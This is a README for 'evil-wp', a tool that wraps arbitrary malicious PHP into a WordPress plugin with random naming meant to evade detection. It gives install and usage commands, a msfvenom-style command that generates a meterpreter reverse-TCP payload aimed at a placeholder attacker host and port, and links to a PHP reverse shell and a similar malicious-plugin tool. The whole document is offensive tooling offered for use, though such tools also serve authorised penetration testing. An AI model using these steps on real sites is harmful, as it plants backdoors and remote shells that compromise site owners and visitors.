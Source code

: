# evil-wp
This is a small project to wrap malicous PHP payloads into a WordPress plugin.

Random name generation is thrown in for fun and a slight attempt at reducing detection by template pattern matching.

## Pre-Requisites
This attack requires the ability to install plugins to the target WordPress installation.

## Installation
To install this simple tool, clone this repository and use pip to install the requirements.

``` bash
$ git clone https://github.com/svespie/evil-wp
$ cd evil-wp
$ pip install -r requirements.txt
```

Consider using a virtual environment as a matter of best practice.

## Usage
``` bash
$ python evil-wp.py -h
$ python evil-wp.py -n <plugin_name> -p "<payload>"
```

* the plugin name should be unique to the installation being attacked
* the payload can be any valid PHP code


## Example Payload Generation
msfvenom is a great place to start with for generating PHP payloads.

``` bash
$ msfconsole -p php/meterpreter/reverse_tcp LHOST=<attacker_host LPORT=<listening_port> -e php/base64 -f raw
```

Any valid PHP will work, including traditional PHP reverse shell payloads such as this one: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.

Note: the payload is inserted into a PHP template. There is no need to include PHP opening and closing tags.

Good luck!

## Similar Projects
* https://github.com/wetw0rk/malicious-wordpress-plugin/blob/master/wordpwn.py (a nifty tool that automates meterpreter use but with less payload flexibility)